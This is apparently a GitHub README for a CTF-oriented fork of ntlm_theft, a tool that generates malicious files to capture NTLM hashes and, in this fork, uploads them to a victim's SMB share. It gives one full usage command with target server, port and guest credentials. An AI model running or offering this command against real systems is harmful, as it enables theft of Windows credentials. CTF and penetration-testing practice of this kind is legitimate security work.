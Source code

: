 This is a fork of [ntlm_theft](https://github.com/Greenwolf/ntlm_theft) A tool to generate malicious files to steal ntlm hashes using responder. 
I have added an optional CTF arg (not realistic for realworld i don't think). This `upload` argument will take all the files generated byt ntlm_theft
and upload them to the victim defined by rserver andd rport


`python3 ntlm_theft.py --generate all --server 127.0.0.1 --filename 'desktop' --upload -rserver localhost -rport 445 -smbuser guest -smbpass '' -d ./desktop/`


![image](https://github.com/h8handles/ntlm_theftCTF/assets/67421443/20ef3a48-7994-45fe-bce5-054a4946487b)


After normal generation of the malicious files it will take the directory created and upload the files 


_List of files Uploaded_

![image](https://github.com/h8handles/ntlm_theftCTF/assets/67421443/6017db00-5cf7-4d65-a2c5-4964d1c40ae3)
